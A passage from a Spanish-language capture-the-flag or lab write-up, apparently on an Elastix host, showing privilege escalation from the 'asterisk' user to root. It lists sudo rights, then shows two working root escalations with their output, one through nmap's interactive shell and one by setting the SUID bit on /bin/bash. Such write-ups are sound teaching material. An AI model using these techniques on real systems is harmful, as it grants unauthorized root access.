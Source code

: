 #### Escalada de Privilegios

Ahora nos falta escalar de privilegios a root

* sudo -l

```shell
bash-3.2$ sudo -l

User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
    (root) NOPASSWD: /bin/chmod
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper
```

Cuando hacemos sudo -l vemos que podemos ejecutar varios binarios como root y vemos que podemos ejecutar **nmap**, **chmod** entre otros como **root** sin contraseña entonces ya estaría echo podemos hacerlo desde **nmap** o con **chmod** vamos a ver las dos

* escalar privigelios con nmap

```shell
bash-3.2$ whoami 
asterisk
bash-3.2$ sudo nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> ! bash -p
bash-3.2# whoami 
root
```

* escalar privigelios con chmod

```shell
bash-3.2$ sudo chmod +s /bin/bash # Asignamos el permiso suid a las bash
bash-3.2$ bash -p # Lanzamos bash y el paramatro -p es de privilege para lanzar-lo con privilegios
bash-3.2# id
uid=100(asterisk) gid=101(asterisk) euid=0(root) egid=0(root) groups=101(asterisk)
bash-3.2# whoami
root
```

### Puerto 10000 (https)
